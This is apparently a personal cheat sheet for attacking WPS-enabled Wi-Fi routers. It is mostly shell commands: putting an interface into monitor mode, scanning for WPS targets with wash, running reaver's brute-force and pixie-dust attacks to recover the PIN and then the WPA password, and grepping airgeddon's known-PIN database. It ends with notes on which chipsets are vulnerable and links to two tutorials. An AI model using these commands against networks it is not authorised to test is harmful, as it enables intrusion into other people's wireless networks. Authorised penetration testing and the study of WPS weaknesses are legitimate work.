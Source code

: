 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with WPS available
```text
sudo wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#### standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```

#### Notes
success running this attack against Ralink and RealTek chipsets. And very spotty success against Broadcom chipsets
```text
sudo reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
#### Airgeddon - Known Pins
```text
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}	#first three parts of the BSSID CODE
echo /usr/share/airgeddon/known_pins.db ${PINDB["0013F7"]} 
grep "0013F7" /usr/share/airgeddon/known_pins.db
```

https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
